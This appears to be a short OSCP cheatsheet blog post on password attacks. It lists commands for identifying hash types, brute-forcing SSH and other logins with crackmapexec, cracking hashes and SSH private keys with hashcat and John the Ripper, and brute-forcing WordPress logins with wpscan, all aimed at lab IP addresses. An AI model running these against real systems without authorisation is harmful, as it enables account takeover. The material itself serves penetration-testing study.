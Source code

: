 ```yaml
---
title: Password Attacks
author: linatl
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
> hashid -e hash.txt
> hash-identifier
```

###### Bruteforcing with Crackmapexec
```
> crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Hashcat
```
> echo "$1$hash" > hash.txt
> hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
> echo "$1$hash" > hash.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```
